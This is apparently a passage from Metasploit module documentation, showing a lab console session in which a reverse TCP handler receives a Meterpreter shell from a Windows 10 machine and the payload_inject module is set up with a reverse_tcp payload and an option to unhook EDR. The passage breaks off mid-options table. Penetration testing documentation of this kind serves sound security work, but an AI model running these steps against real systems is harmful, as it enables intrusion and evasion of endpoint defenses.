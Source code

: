 ## Scenarios
### Windows 10x64 Build 17134 No PID
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.168:5555 
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49673) at 2020-01-22 13:10:13 -0600
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/payload_inject 
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION                       yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > set session 1
session => 1
msf5 exploit(windows/local/payload_inject) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/payload_inject) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
```